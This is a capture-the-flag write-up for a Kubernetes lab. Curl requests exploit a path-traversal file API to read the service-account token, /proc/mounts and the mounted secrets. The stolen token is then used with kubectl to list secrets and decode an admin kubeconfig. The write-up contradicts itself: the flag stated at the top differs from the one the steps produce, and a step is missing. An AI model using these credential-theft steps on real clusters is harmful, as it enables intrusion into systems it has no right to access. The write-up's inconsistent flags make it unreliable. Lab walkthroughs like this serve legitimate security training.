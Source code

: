 #  Secret Pirate 

## Challenge Objective
Note: The URLs used in this solution are local and intended for use with Docker Desktop && port forwarding 


Find two parts of a flag and combine them:

- **Part 1**: `ghctf{k8s_path_traversal`
- **Part 2**: `_to_cluster_pwn}`
- **Complete Flag**: `ghctf{k8s_path_traversal_to_cluster_pwn}`

## Solution Steps

### Step 1: Access the Web Application

Navigate to `http://<cluster-ip>:30080` and explore the interface.

### Step 2: Discover Kubernetes Information

First, get the current namespace name:

**Request:**

```bash
curl -X POST http://localhost:8080/api/file \
  -H "Content-Type: application/json" \
  -d '{"path": "/var/run/secrets/kubernetes.io/serviceaccount/namespace"}'
```

**Response:**

```json
{
  "status": "success",
  "path": "/var/run/secrets/kubernetes.io/serviceaccount/namespace",
  "content": "ctf-challenge"
}
```

Now get the service account token:

**Request:**

```bash
curl -X POST http://localhost:8080/api/file \
  -H "Content-Type: application/json" \
  -d '{"path": "/var/run/secrets/kubernetes.io/serviceaccount/token"}'
```

**Response:**

```json
{
  "status": "success",
  "path": "/var/run/secrets/kubernetes.io/serviceaccount/token",
  "content": "eyJhbGciOiJSUzI1NiIs..."
}
```

Save this token as `$KUBE_TOKEN` and note the namespace is `ctf-challenge`.

### Step 3: Reconnaissance - Discover Mounted Secrets

Before knowing what secrets exist, explore the filesystem to find mounted volumes:

**Option A: Check /proc/mounts to see mounted volumes**

```bash
curl -X POST http://localhost:8080/api/file \
  -H "Content-Type: application/json" \
  -d '{"path": "/proc/mounts"}'
```

**Option B: Use the System Info endpoint**

```bash
curl http://localhost:8080/api/system
```

**Option C: Explore common secret mount paths**

```bash
# Try to list directories under /etc/secrets/
curl -X POST http://localhost:8080/api/file \
  -H "Content-Type: application/json" \
  -d '{"path": "/etc/secrets"}'

# Or try common Kubernetes secret mount locations
curl -X POST http://localhost:8080/api/file \
  -H "Content-Type: application/json" \
  -d '{"path": "/etc"}'
```

**Expected discovery:** You'll find directories like `/etc/secrets/db/` and `/etc/secrets/api/`

### Step 4: Explore Secret Contents

Once you discover the `/etc/secrets/db/` directory, list its contents:

**List files in the db secrets directory:**

```bash
# Try to read the directory (this might fail, but try different approaches)
curl -X POST http://localhost:8080/api/file \
  -H "Content-Type: application/json" \
  -d '{"path": "/etc/secrets/db/"}'

```

in this dir you will find password

**🎯 Part 1 Found in password file:** `CTF{DB_PASSWORD`

### Step 5: Use Kubernetes API for Further Discovery

Set up kubectl with the stolen token and discovered namespace:

```bash
export KUBE_TOKEN="eyJhbGciOiJSUzI1NiIs..."
# export KUBE_SERVER="https://127.0.0.1:53612"
export KUBE_SERVER="https://kubernetes.default.svc"

export NAMESPACE="ctf-challenge"
```

**First, check what permissions you have:**

```bash
kubectl --token=$KUBE_TOKEN --server=$KUBE_SERVER --insecure-skip-tls-verify \
  auth can-i --list -n $NAMESPACE
```

**Discover all secrets in the namespace:**

```bash
kubectl --token=$KUBE_TOKEN --server=$KUBE_SERVER --insecure-skip-tls-verify \
  get secrets -n $NAMESPACE
```

**Output:**

```
NAME                 TYPE     DATA   AGE
admin-kubeconfig     Opaque   1      10m
api-keys            Opaque   2      10m
database-credentials Opaque   3      10m
```

**Now you know the secret names! Get the admin-kubeconfig:**

```bash
kubectl --token=$KUBE_TOKEN --server=$KUBE_SERVER --insecure-skip-tls-verify \
  get secret admin-kubeconfig -n $NAMESPACE -o yaml
```

**Output:**

```yaml
apiVersion: v1
data:
  kubeconfig: X2FkbWluLWt1YmVjb25maWd9
kind: Secret
metadata:
  name: admin-kubeconfig
  namespace: ctf-challenge
```

Decode the base64 kubeconfig:

```bash
echo "X2FkbWluLWt1YmVjb25maWd9" | base64 -d
```

**Output:** `_admin-kubeconfig}`

**🎯 Part 2 Found:** `_admin-kubeconfig}`

### Step 7: Combine the Flag Parts

- Part 1: `CTF{DB_PASSWORD`
- Part 2: `_admin-kubeconfig}`
- **Final Flag**: `CTF{DB_PASSWORD_admin-kubeconfig}`

